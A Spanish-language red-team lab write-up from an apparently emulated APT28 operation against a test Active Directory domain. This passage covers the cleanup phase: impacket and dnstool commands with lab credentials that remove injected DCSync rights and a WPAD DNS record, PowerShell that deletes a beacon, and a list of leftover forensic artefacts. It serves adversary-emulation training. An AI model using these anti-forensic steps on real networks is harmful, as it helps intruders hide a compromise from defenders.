



# Cleanup OPSEC — Operación IRON FOREST
## Lab-04: Eliminación de artefactos post-operación

**Operación:** IRON FOREST | **Adversario:** APT28 (Fancy Bear) | **Fase:** 08 — Cleanup OPSEC  
**Fecha:** 29/05/2026 | **Operador:** Adrián Camacho


> **Módulo M8 · Ruta: `[crítica]`**
>
> **Objetivo único:** Eliminación de artefactos: SPN inyectados, ACE añadidos, ficheros, logs.
>
> **Prerequisito real:** todos los anteriores (cierre de operación).
>
> **Habilita:** estado restaurado — reduce huella forense.
>
> **TTP:** T1070 · T1551

---

## FASE 08 — Cleanup OPSEC

### 8.1 Eliminar DCSync rights de fin.garcia

```bash
impacket-dacledit atackcorp.local/fin.garcia:'Finance2024!' \
  -action remove \
  -rights DCSync \
  -principal fin.garcia \
  -target-dn "DC=atackcorp,DC=local" \
  -dc-ip 10.0.2.10
```

**Output:**
```
[*] DACL backed up to dacledit-20260529-155133.bak
[*] DACL modified successfully!
```

> 📸 Captura:
> 

---

### 8.2 Eliminar registro WPAD de ADIDNS

```bash
python3 /opt/redteam/krbrelayx/dnstool.py \
  -u 'atackcorp\fin.garcia' \
  -p 'Finance2024!' \
  --record 'wpad' \
  --action remove \
  --data 10.0.2.9 \
  10.0.2.10
```

**Output:**
```
[+] Bind OK
[-] Target has only one record, tombstoning it
[+] LDAP operation completed successfully
```

> 📸 Captura:
> 

**Nota:** `tombstoning` es la forma en que ADIDNS marca registros para eliminación — el registro no se borra inmediatamente sino que se marca como obsoleto y se elimina tras el TTL.

---

### 8.3 Eliminar beacon del disco en DC-01

```powershell
Stop-Process -Name "iron_forest_dc01" -Force
Remove-Item "C:\Windows\Temp\iron_forest_dc01.exe" -Force
Remove-Item "C:\Users\Administrador.DC-01\Documents\iron_forest_dc01.exe" -Force

# Verificación
Test-Path "C:\Windows\Temp\iron_forest_dc01.exe"       # False
Test-Path "C:\Users\Administrador.DC-01\Documents\iron_forest_dc01.exe"  # False
Write-Host "[+] Cleanup completado"
```

> 📸 Captura:
> 

---

### 8.4 Checklist de cleanup completo

| Artefacto | Estado |
|---|---|
| DCSync rights en fin.garcia | ✅ Eliminados |
| Registro wpad.atackcorp.local | ✅ Tombstoned |
| iron_forest_dc01.exe en C:\Windows\Temp | ✅ Eliminado |
| iron_forest_dc01.exe en Documents | ✅ Eliminado |
| Proceso iron_forest_dc01 | ✅ Terminado |
| DNS Global Query Block List | ⚠️ Pendiente re-activar |
| Historial Evil-WinRM en DC-01 | ⚠️ Pendiente limpiar |

---

### 8.5 Artefactos persistentes (no eliminados)

- **Beacon Sliver activo en memoria** — el proceso fue terminado pero el beacon sigue en la lista de Sliver
- **Logs de eventos** en DC-01 — Event IDs 5136, 4662, 4688 permanecen en los logs
- **DACL backup** `dacledit-*.bak` en el directorio de trabajo de Kali
- **Historial PS** de Administrador modificado — ConsoleHost_history.txt contiene comandos de la operación

---

*Operación IRON FOREST — Adrián Camacho | 29/05/2026*